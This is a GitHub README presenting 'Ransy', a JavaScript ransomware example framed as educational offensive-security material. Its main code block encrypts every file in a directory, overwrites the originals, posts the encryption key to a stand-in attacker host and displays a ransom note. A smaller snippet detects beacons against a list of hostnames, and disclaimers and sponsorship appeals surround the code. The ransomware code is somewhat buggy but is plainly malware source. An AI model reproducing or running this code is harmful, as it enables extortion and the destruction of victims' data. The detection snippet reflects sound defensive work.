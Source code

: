 
# Ransy - Code in JavaScript (Example) v2

##### RedTeam - Techniques for 'Offensive Security' by Volkan Sah - Simple Codings for Offensive Security (update 02/2023)

> [!WARNING]
> Please note that exploiting security vulnerabilities without permission and creating or using ransomware is illegal and unethical, and may result in criminal charges. Use this information responsibly and only on networks you have permission to access.

Ransomware attacks are one of the most destructive and malicious types of cyber threats, often resulting in significant financial losses and personal data theft. It is important to understand the mechanisms of ransomware attacks in order to protect yourself and your systems from these malicious threats.

This JavaScript code provides a simplified example of a ransomware attack and its underlying techniques. It is intended for educational and ethical hacking purposes only, and should not be used for any illegal or unethical activities. It is important to always abide by the law and use technology responsibly and ethically to promote positive outcomes for society.

## Example
```javascript
// Ransomware code (for demonstration purposes only)
var fs = require('fs');
var crypto = require('crypto');
var https = require('https');

// Directory to target for file encryption
var targetDirectory = '/user/files';

// Generate encryption key
var encryptionKey = crypto.randomBytes(32).toString('hex');

// Read all files in the target directory
fs.readdirSync(targetDirectory).forEach(file => {
  // Skip directories
  if (fs.lstatSync(file).isDirectory()) return;

  // Read file data
  var data = fs.readFileSync(file);

  // Encrypt file data with encryption key
  var cipher = crypto.createCipher('aes-256-cbc', encryptionKey);
  var encryptedData = cipher.update(data, 'utf8', 'hex') + cipher.final('hex');

  // Write encrypted data back to file
  fs.writeFileSync(file, encryptedData);
});

// Send beacon with encryption key (for demonstration purposes only)
var beaconData = JSON.stringify({ key: encryptionKey });
var options = {
  hostname: 'malicious.server.com',
  port: 443,
  path: '/beacon',
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
    'Content-Length': beaconData.length
  }
};

var req = https.request(options, res => {
  console.log(`Beacon sent with status code: ${res.statusCode}`);
});

req.on('error', error => {
  console.error(`Error sending beacon: ${error}`);
});

req.write(beaconData);
req.end();

// Display ransom note to user
var ransomNote = `
Your files have been encrypted!
Contact us at malicious@server.com to get the decryption key.
`;

console.log(ransomNote);
```

## Note
As technology continues to advance, it's more important than ever to protect ourselves and our systems from malicious attacks. With the rise of dangerous JavaScript techniques that can be executed through the browser, it's crucial to take proactive measures to safeguard your browsing experience. By utilizing browser add-ons such as NoScript and Privacy Badger, you can protect yourself from potential threats and enjoy a safer, more secure online experience. Remember, it's not just about protecting yourself - it's about promoting a culture of responsible technology use that benefits society as a whole.

## Detecting Fallback and Beaconing Mechanisms
Ransomware often includes fallback mechanisms and beaconing to ensure it can still operate if initial commands fail. Here are some examples to detect such activities:

```javascript
// Detect beaconing attempts
var detectBeaconing = function() {
  var knownBeacons = ['malicious.server.com', 'another.malicious.com'];
  var networkRequests = getNetworkRequests(); // Hypothetical function to get network requests

  networkRequests.forEach(request => {
    if (knownBeacons.includes(request.hostname)) {
      console.warn(`Potential beacon detected to: ${request.hostname}`);
    }
  });
};

detectBeaconing();
```

## Disclaimer
The developer of this script is not responsible for any misuse or damage caused by this tool. It is the user's responsibility to ensure that they have the necessary permissions to use this tool on their chosen networks. Only for educational and ethical hacking purposes only!

## Issues
Issues for this script are not accepted as it is intended for educational purposes only and not for production use. However, you are welcome to make a Pull Request (PR) for contributions.

> [!WARNING]
> Exploiting security vulnerabilities without permission and creating or using ransomware is illegal and unethical, and may result in criminal charges.

## Your Support
If you find this project useful and want to support it, there are several ways to do so:

- If you find the white paper helpful, please ⭐ it on GitHub. This helps make the project more visible and reach more people.
- Become a Follower: If you're interested in updates and future improvements, please follow my GitHub account. This way you'll always stay up-to-date.
- Learn more about my work: I invite you to check out all of my work on GitHub and visit my developer site https://volkansah.github.io. Here you will find detailed information about me and my projects.
- Share the project: If you know someone who could benefit from this project, please share it. The more people who can use it, the better.
**If you appreciate my work and would like to support it, please visit my [GitHub Sponsor page](https://github.com/sponsors/volkansah). Any type of support is warmly welcomed and helps me to further improve and expand my work.**

Thank you for your support! ❤️

##### Copyright S. Volkan Kücükbudak

### License
This project is licensed under the MIT - see the [LICENSE](LICENSE) file for details.
